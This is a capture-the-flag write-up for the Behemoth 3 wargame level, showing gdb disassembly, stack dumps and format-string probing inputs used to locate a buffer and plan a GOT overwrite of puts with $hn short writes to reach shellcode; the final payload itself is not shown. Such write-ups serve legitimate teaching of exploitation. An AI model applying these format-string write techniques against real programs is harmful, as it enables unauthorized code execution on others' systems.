


#Behemoth 3

learned skills: write to arbitrary memory address, %n - write the numbers of chracter written, writing the value separately using $hn 

This challenge helped me to learn a lot about different ways to control format string vulnerability.

When I frist examined the binary, I thought of buffer overflow (well hopefully but least likely...)

```
behemoth3@melinda:/behemoth$ gdb behemoth3 -q
Reading symbols from behemoth3...(no debugging symbols found)...done.
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb)
```
well.... fgets.... No buffer overflow :( 
There is printf. Maybe this is format vuln. Lets test it .

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: %x.%x.%x.%x
Welcome, c8.f7fcac20.0.0

aaaand goodbye again.
[Inferior 1 (process 6538) exited normally]
(gdb)
```

Oh dear printfl,!Now lets figure out where our buffer is.

```
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x
Welcome, AAAAc8.f7fcac20.0.0.f7ffd000.41414141.252e7825.78252e78.2e78252e

aaaand goodbye again.
[Inferior 1 (process 4016) exited normally]
(gdb)	
```

So it was located at 6th position. 

After that I checkd where the buffer was located after fgets

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	and    $0xfffffff0,%esp
   0x08048483 <+6>:	sub    $0xe0,%esp
   0x08048489 <+12>:	movl   $0x8048570,(%esp)
   0x08048490 <+19>:	call   0x8048330 <printf@plt>
   0x08048495 <+24>:	mov    0x80497a4,%eax
   0x0804849a <+29>:	mov    %eax,0x8(%esp)
   0x0804849e <+33>:	movl   $0xc8,0x4(%esp)
   0x080484a6 <+41>:	lea    0x18(%esp),%eax
   0x080484aa <+45>:	mov    %eax,(%esp)
   0x080484ad <+48>:	call   0x8048340 <fgets@plt>
   0x080484b2 <+53>:	movl   $0x8048584,(%esp)
   0x080484b9 <+60>:	call   0x8048330 <printf@plt>
   0x080484be <+65>:	lea    0x18(%esp),%eax
   0x080484c2 <+69>:	mov    %eax,(%esp)
   0x080484c5 <+72>:	call   0x8048330 <printf@plt>
   0x080484ca <+77>:	movl   $0x804858e,(%esp)
   0x080484d1 <+84>:	call   0x8048350 <puts@plt>
   0x080484d6 <+89>:	mov    $0x0,%eax
   0x080484db <+94>:	leave
   0x080484dc <+95>:	ret
End of assembler dump.
(gdb) b*0x080484b2
Breakpoint 1 at 0x80484b2
(gdb) r
Starting program: /games/behemoth/behemoth3
Identify yourself: AAAA%x.%x.%x.%x.%x.%x

Breakpoint 1, 0x080484b2 in main ()
(gdb) x /40wx $esp
0xffffd5e0:	0xffffd5f8	0x000000c8	0xf7fcac20	0x00000000
0xffffd5f0:	0x00000000	0xf7ffd000	0x41414141	0x252e7825
0xffffd600:	0x78252e78	0x2e78252e	0x252e7825	0x08000a78
0xffffd610:	0xffffd678	0xf7ffda94	0x00000000	0xf7fce2e8
0xffffd620:	0x00000001	0x00000000	0x00000001	0xf7ffd938
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000003	0x00000009	0x04c0003f	0x00000000
0xffffd650:	0xffffd704	0xffffd678	0xffffd670	0x08048262
0xffffd660:	0xf7ffd938	0x00000000	0x000000c2	0xf7eb75b6
0xffffd670:	0xffffffff	0xffffd69e	0xf7e2fbf8	0xf7e55f53
(gdb) p 0xffffd5f0+8
$3 = 4294956536
```
In hex, 4294956356 = 0xffffd5fc 

(This was not necessary but I just wanted to see where it was :) )

At this point, I realized that I could overwrite GOT for put and point that to the shellcode.
But there was a problem. Since it was DWORD, I could not write it all at the same time. So I had to spearte into two parts:

First write two lower bytes and then two higher bytes

Here is the final payload:

 

*To find the address to jump to, I used the paylaod by just writing 6 and 7 characters respecitvely and chose middle of 'A' (junk)
*To write two bytes at a time, I used $hn for short write and simple math (literally typing 0x + last twobytes into python shell and same for higher bytes) 

 

From this point forward, it was trial and error. Even though shell was executed, it seems like it was either not visible or some other problem. So I had to repeat the process until it gave me the shell.


